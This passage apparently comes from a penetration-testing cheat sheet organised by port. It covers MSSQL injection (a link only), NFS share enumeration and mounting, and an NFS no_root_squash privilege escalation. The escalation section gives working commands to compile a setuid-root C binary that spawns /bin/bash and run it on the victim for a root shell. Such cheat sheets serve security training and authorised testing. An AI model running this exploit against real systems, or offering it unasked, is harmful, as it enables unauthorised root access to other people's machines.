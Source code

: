 ### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```

------

## NFS - 2049

### Show Mountable NFS Shares

```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

### Mount a share

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

### NFS misconfigurations

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```

------

## MYSQL - 3306
